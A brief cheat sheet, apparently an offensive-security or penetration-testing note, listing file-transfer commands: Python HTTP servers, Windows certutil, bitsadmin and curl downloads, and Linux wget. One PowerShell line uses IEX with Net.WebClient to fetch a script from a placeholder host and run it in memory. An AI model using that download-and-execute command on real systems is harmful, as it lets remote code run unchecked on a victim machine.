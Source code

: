 # File transfer

## Python web server
Python we server
python -m SimpleHTTPServer 9000
python3 -m http.server 9000

## Windows file transfer
certutil.exe —urlcache —f http://<webpage>/file.txt file.txt

certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip

bitsadmin /transfer myDownloadJob /download /priority normal https://www.hkrefill.com/images/billboard/cheapselftake.gif "C:\Users\helpdesk\Downloads\cheap.gif"

curl  "https://www.hkrefill.com/images/billboard/cheapselftake.gif" --output abc.gif


powershell "IEX(New-Object Net.WebClient).downloadString('http://<webpage>:8000/file.txt')"

## Linux file transfer
wget http://ftp.gnu.org/gnu/wget/wget2-2.0.0.tar.gz

wget -O wget.zip http://ftp.gnu.org/gnu/wget/wget2-2.0.0.tar.gz

file contains dl link
wget -i download-linux.txt